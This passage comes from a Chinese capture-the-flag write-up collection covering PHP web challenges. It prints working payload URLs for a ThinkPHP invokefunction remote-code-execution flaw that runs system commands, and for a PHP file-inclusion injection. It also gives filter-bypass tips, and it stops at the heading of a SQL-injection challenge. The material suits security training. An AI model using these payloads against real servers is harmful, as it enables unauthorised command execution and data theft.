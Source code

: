 > http://192.168.100.161:54064/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20%22flag%22
> 4. 查看flag  
> http://192.168.100.161:54064/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag

**总结**：奇怪的知识盲区增加了，看来php框架也得学一下；flag文件还有可能在根目录等，最好用find搜索一下  2020.7.16.Thu

---


# 5. Web_php_include

**题目来源**：XTCTF  
**题目描述**：暂无

**WP**:
> **原理**  
> php文件包含
> 
> **目的**  
> 了解如何利用php文件包含
> 
> **环境**  
> Windows
> 
> **工具**  
> chrome
> 
> **步骤**
> 1. 审计php代码,while函数根据page参数来判断php文件是否存在，如果存在此文件，则进行文件包含。
> 2. 默认页面为http://127.0.0.1/index.php,设置为page值，可确保while为真
> 3. 利用hello参数将执行内容显示  
> ```
> http://192.168.100.161:50281/?page=http://127.0.0.1/index.php/?hello=%3C?system(%22ls%22);?%3E
> http://192.168.100.161:50281/?page=http://127.0.0.1/index.php/?hello=%3C?show_source(%22fl4gisisish3r3.php%22);?%3E
> ```


**总结**：
1. 本题中先利用被echo的参数把要执行的PHP代码输出到当前页面上（记得带上```<?php ?>```或```<? ?>```），再用被include的参数来包含当前页面；
2. ```strstr```（判断字符串中是否包含某子串）可用大小写绕过；
3. ```file_get_contents```不行的时候可尝试```show_source```
4. include的url要包含协议
5. 可通过`phpinfo`查看`system`之类的敏感函数是否被禁用  2020.7.31.Fri

---


# 6. supersqli

**题目来源**：强网杯 2019  
**题目描述**：随便注
